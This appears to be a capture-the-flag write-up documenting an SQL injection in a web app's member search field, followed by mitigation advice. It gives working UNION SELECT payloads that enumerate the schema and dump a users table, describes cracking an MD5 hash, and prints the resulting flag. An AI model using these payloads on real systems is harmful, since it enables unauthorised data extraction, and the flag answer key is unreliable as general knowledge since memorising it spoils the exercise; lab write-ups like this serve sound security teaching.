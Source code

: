 # SQL Injection In Member Search Field


## Issue

The input field at "http://{IP}:{PORT}/index.php?page=member" does not sanitize input data which is passed through to a database directly enquiry \
resulting in injection of query into SQL database.


## Attack Vector

1 - Navigating to "http://{IP}:{PORT}/index.php?page=member" and entering arbitrary payload eg `' or 1=1` into input field and selecting submit 
reveals SQL syntax error message confirming that data is being passed into query unsantized

2 - Identify Schemas in database by inputing `4 UNION SELECT null,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -` - we see interesting schema `Member_Sql_Injection` \
Note - as there are only 2 columns being reurned/rendered by the server during a normal query then union select needs to only reference 2 columns during query!

3 - Identify the tables in `Member_Sql_Injection` schema with `4 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS -- -` which reveals table name `users`

4 - Identify all columns in Users table in Member_Sql_Injection with  `4 UNION SELECT COLUMN_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS -- -`

5 - Column names `user_id, first_name, last_name, town, country, planet, Commentaire, countersign` are revealed

6 - Query each column in Users table with `4 UNION SELECT {column_name},{column_name} FROM Member_Sql_Injection.users -- -`

7 - After querying all columns we see one particular interest entry in the Users table as follows:
| **Column name**  | user_id | first_name | last_name | town | country | planet | Commentaire                                               | countersign                               |
|--------------|---------|------------|-----------|------|---------|--------|-----------------------------------------------------------|------------------------------------------|
| **Data**         | 5       | Flag       | GetThe    | 42   | 42      | 42     | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28        |

8 - Open bash and navigate to script directory. Launch script with `python3 hashcracker.py` to attempt to crack md5 hash against the passwordlist.txt wordlist

9 - The decrypted hash is found to be `FortyTwo`

10 - We follow the intructions as per table contents and lowercase `FortyTwo` then apply a SHA256 algorith to reveal the flag.

11 - Flag is `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

*NOTE - You can use existing MD5 decryption tools such as MD5decrypt.net to attempt to crack the hash.*


## Mitigation

1 - Sanitize and validate input

2 - Use ORM framework to make queries to database

3 - Do not expose raw SQL error messages




